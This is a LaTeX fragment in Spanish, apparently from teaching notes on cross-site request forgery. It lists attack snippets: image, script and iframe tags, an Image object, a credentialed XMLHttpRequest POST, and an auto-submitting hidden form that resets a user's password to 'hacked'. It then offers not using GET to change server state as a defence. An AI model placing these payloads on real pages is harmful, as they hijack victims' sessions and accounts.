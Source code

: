 \documentclass{article}
\theoremstyle{definition}
\begin{document}
Las formas más comunes de explotar esta vulnerabilidad son mediante:
\begin{enumerate}
\item el atributo \verb+src+ de diferentes elementos:
\begin{itemize}
	\item \verb+<img src="http://host/?command">+
	\item \verb+<script src="http://host/?command">+
	\item \verb+<iframe src="http://host/?command">+
\end{itemize}
\item un objeto \verb+Image+:
  \begin{verbatim}
  <script>
      const img = new Image();
      img.src = "http://host/?command";
  </script>
  \end{verbatim}
\item un objeto \verb+XMLHttpRequest+:
  \begin{verbatim}
  <script>
      const postData = "name=value";
      const xhr = new XMLHttpRequest();
      xhr.open("POST", "https://example.com/shop/voteForProduct", false);
      xhr.withCredentials = true;
      const params = "productId=1337&vote=AAA";
      xhr.send(params);
  </script>
  \end{verbatim}
\item un \verb+form+ oculto que se envía automáticamente:
  \begin{verbatim}
  <form method="POST" id="ezpz" name="ezpz"
   action="https://socialnetwork.com/user/passwordchange">
      <input type="hidden" name="newpass" value="hacked">
  </form>
  <script>document.ezpz.submit()</script>
  \end{verbatim}
\end{enumerate}

Notese que en el \autoref{ex:1} se estaba utilizando un GET de manera
incorrecta de acuerdo a la especificación de HTTP. GET es uno de los
denominados \textit{safe methods} listados en \cite{rfc7231}, por lo que no
debería usarse para cambiar estado en el servidor. Esto, además de ser buena
práctica, nos lleva a una primera medida de prevención:

\begin{center}
\textbf{No usar métodos seguros como GET para modificar estado en el
servidor.}
\end{center}

Hacer esto nos asegura que el atacante no puede hacer un CSRF de forma
automática sin el uso de JavaScript.
\end{document}
